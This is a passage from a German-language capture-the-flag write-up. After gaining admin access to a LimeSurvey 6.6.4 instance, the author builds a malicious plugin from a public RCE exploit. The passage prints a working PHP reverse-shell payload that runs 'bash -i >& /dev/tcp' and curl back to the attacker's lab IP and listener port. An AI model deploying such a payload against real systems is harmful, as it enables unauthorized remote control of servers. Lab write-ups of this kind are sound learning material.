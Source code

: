 ![alt text](Screenshot_2025-04-19_17_49_00.png)

## Reverse Shell – www-data via LimeSurvey Plugin Upload

Nachdem wir Zugriff auf das Admin panel von LimeSurvey hatten, haben wir nach der version 6.6.4 im internet gesucht um zu sehen ob es ein exploit gibt. Tatsächlich gab es ein RCE (remote code execution) exploit:

https://github.com/N4s1rl1/Limesurvey-6.6.4-RCE

Da Standart Payloads die web ui oft zum Absturz bringen (504 Gateway Timeout), haben wir ein nicht-blockierendes Reverse‑Shell‑Plugin mit hilfe des githubs erstellt, das sich problemlos installieren und triggern lässt.

#### 1. Exploit‑Plugin bauen, mit hilfe des github: https://github.com/N4s1rl1/Limesurvey-6.6.4-RCE

```bash
mkdir -p ~/heal_plugin && cd ~/heal_plugin
```

Reverse shell als php datei:

```php
cat > php-rev.php <<'EOF'
<?php
$ip = '10.10.14.199';  // ← meine tun0‑IP
$port = 9001;          // ← Listener‑Port

$cmd = "bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'";
$payload = "curl -s -X POST --data \"\$($cmd)\" http://$ip:$port &";
system($payload);
?>
EOF
```
